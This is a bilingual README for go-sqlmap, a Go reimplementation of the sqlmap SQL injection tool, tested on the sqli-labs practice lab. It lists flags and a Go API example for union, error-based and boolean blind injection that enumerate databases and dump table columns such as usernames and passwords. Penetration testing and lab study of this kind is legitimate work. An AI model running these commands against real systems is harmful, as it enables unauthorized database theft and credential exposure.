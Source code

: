 # go-sqlmap

## 介绍

- sqlmap：渗透测试界的神器，这是一个简单的sqlmap
- 使用Golang重写的原因：高效、生成可执行文件直接运行、无需搭建环境等
- 测试通过sqli-lab前八关，传入一个有注入的url即可直接脱库
- 目前可以做到UnionSelect回显注入、Updatexml和Polygon的报错注入、布尔盲注

## Introduce

- Sqlmap is a famous tool in penetration testing field, and this is a simple sqlmap
- The reasons for using golang rewriting are: high efficiency, generating executable files to run directly, etc
- At present, sqli-labs(https://github.com/Audi-1/sqli-labs) can be successfully injected into the first eight levels
- Union Select Injection,Updatexml and Polygon Error Based Injection and Bool Blind Injection are currently supported

## Instructions

- Use`-u http://xxx/index.php?id=1`Do Injection(By default, the version and all database names are probed)
- Use`-D security`Specify the specific database for injection to obtain all tables(such as security database)
- Use`-D security -T users`Specify database and table names to get all field names(such as users table of security database)
- Use`-D security -T users -C id,username,password`Get all the data of the three fields in the users table
- Use`--technique U`Specifies to use union select injection(sqli-labs 1,2,3,4)
- Use`--technique E`Specifies to use error based injection(sqli-lbs 5,6)
- Use`--technique B`Specifies to use bool blind injection(sqli-labs 8)
- Use`--beta`Parameter to activate the polygon error function(use updatexml by default because it is more stable)

## 图片

- Use Sqli-Labs For Test: [sqli-labs github](https://github.com/Audi-1/sqli-labs)

![](https://raw.githubusercontent.com/EmYiQing/go-sqlmap/master/img/demo.gif)

- Union Select Injection

![](https://raw.githubusercontent.com/EmYiQing/go-sqlmap/master/img/02.png)

- Error Based Injection

![](https://raw.githubusercontent.com/EmYiQing/go-sqlmap/master/img/01.png)

- Bool Blind Injection

![](https://raw.githubusercontent.com/EmYiQing/go-sqlmap/master/img/03.png)

## Quick Start

[Download](https://github.com/EmYiQing/go-sqlmap/releases)

```shell
go-sqlmap.exe -u http://sqlilab-ip/Less-1/?id=1 -D security -T users -C id,username,password --technique U
```

## API

```shell
go get https://github.com/EmYiQing/go-sqlmap
```

```go
package main

import (
	sqlmap "github.com/EmYiQing/go-sqlmap/api"
	"github.com/EmYiQing/go-sqlmap/start"
)

func main() {
	opts := start.Input{
		Beta:      false,
		Url:       "http://192.168.222.129:81/Less-1/?id=1",
		Database:  "security",
		Table:     "users",
		Columns:   []string{"id", "username", "password"},
		Technique: []string{"U"},
	}
	instance := sqlmap.NewScanner(opts)
	instance.Run()
	instance.Stop()
}
```


